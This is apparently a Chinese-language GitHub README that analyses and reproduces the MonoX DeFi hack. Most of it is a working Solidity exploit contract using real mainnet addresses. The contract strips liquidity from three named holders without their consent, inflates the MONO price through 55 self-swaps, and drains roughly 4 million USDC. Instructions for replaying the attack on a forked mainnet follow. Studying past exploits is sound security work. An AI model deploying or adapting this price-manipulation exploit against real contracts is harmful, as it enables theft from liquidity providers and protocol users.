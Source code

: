 # MonoX_Vul_
MonoX被攻击事件的分析和复现

[攻击事件的分析](https://github.com/W2Ning/MonoX_Vul_/blob/main/MonoX%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E5%88%86%E6%9E%90.md)


[完整攻击代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/poc.sol)

### 核心攻击代码

```js
contract POC{

    address WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    address Mono_Token_Address = 0x2920f7d6134f4669343e70122cA9b8f19Ef8fa5D;

    address MonoXPool_Address = 0x59653E37F8c491C3Be36e5DD4D503Ca32B5ab2f4;

    address Monoswap_address =  0xC36a7887786389405EA8DA0B87602Ae3902B88A1;
    // 无辜的大户地址1
    address Innocent_user_1 = 0x7B9aa6ED8B514C86bA819B99897b69b608293fFC;
    // 无辜的大户地址2
    address Innocent_user_2 = 0x81D98c8fdA0410ee3e9D7586cB949cD19FA4cf38;
    // 无辜的大户地址3
    address Innocent_user_3 = 0xab5167e8cC36A3a91Fd2d75C6147140cd1837355;

    address USDC_Address =  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    uint256 Amount_Of_MonoToken_On_XPool;

    uint256 public Amount_Of_USDC_On_XPool;
    
    uint256 public Amoount_Of_Mono_On_This; 


    constructor()  public payable{
        // 把MonoToken的全部额度授权给MonoSwap 
        MonoToken(Mono_Token_Address).approve(Monoswap_address,type(uint256).max);
        // 把0.1个ETH换成0.1个WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        // 把0.1个WETH的额度授权给MonoSwap
        WETH9(WETH9_Address).approve(Monoswap_address,0.1 ether);
        // 用0.1个WETH在MonoSwap上购买MonoToken
        Monoswap(Monoswap_address).swapExactTokenForToken(WETH9_Address,Mono_Token_Address,0.1 ether,1,address(this),block.timestamp);
        // 把XPool中三个大户的流动性全部剔除
        RemoveLiquidity_From_3_Users();
        // 添加自己的流动性
        Monoswap(Monoswap_address).addLiquidity(Mono_Token_Address,196875656,address(this));
        // 用Mono换Mono 共55次
        Swap_Mono_for_Mono_55_Times();
        // 用极少量的Mono换到400万的USDC
        Swap_Mono_For_USDC();

    }


    function RemoveLiquidity_From_3_Users() internal{
        uint256 balance_Of_User1 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_1,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User1,Innocent_user_1,0,1);

        uint256 balance_Of_User2 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_2,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User2,Innocent_user_2,0,1);

        uint256 balance_Of_User3 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_3,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User3,Innocent_user_3,0,1);
    }

    function Swap_Mono_for_Mono_55_Times() internal{

        for(uint256 i=0;i < 55; i++){

            (,,,,,,Amount_Of_MonoToken_On_XPool,,) = Monoswap(Monoswap_address).pools(Mono_Token_Address);

            Monoswap(Monoswap_address).swapExactTokenForToken(Mono_Token_Address,Mono_Token_Address,Amount_Of_MonoToken_On_XPool-1,0,address(this),block.timestamp);
            
        }
    }

    function Swap_Mono_For_USDC() internal{

        (,,,,,,Amount_Of_USDC_On_XPool,,) = Monoswap(Monoswap_address).pools(USDC_Address);

        Amoount_Of_Mono_On_This = MonoToken(Mono_Token_Address).balanceOf(address(this));

        Monoswap(Monoswap_address).swapTokenForExactToken(Mono_Token_Address,USDC_Address,Amoount_Of_Mono_On_This,4000000000000,msg.sender,block.timestamp);
    }


    receive() payable external{}


    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
        bytes4 a = 0xf23a6e61;
        return a;
    }
```

### 复现方法

* 主网上的攻击发生在高度为`13715026`的块上, 所以同样我们选前一个块去fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/Your_API_KEY@13715025   -l 4294967295
```

* 部署攻击合约 注意部署时要带上100个`Finney`, 也就是0.1个`ETH`


![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E9%83%A8%E7%BD%B2%E6%94%BB%E5%87%BB%E5%90%88%E7%BA%A6.png)

* 攻击前的MetaMask钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%89%8D%E7%9A%84MetaMask%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

* 攻击后的钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%90%8E%E7%9A%84%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

